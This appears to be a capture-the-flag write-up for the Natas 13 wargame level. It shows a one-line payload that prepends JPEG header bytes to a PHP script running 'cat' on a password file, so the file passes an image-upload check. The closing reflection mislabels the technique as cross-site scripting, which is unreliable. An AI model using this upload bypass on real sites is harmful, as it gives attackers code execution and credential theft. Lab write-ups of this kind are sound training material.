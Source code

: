 This time the source code checks for the jpg extensions. 
<img title="inspect html" alt="Alt text" src="../image_resources/natas13_code.png">

In order to still be able to upload a php file inside, we need to add some signature bytes of the image extension. My edited php content is as such:
```
echo -e "\xff\xd8\xff\xe0\n<?php echo exec(\"cat /etc/natas_webpass/natas14\"); ?>" >> natas13.jpg
```
the `\xFF\xD8\xFF` being the jpeg header bytes and saved as a jpg file.

Then following on from the last level where we edited the file extension in the console, we can get the password.

<img title="inspect html" alt="Alt text" src="../image_resources/natas13_bypass.png">

<img title="inspect html" alt="Alt text" src="../image_resources/natas13_pass.png">

### Reflection:
This was quite an interesting challenge that I hadn't expected cross-site scripting to be this easy. Initially, I had thought that you needed to make intricate shellcodes and hide them sneakily into files for the attack to work. However, the attack is so simple to the point that it only requires us to just add image header bytes as a facade to upload our malicious script.  
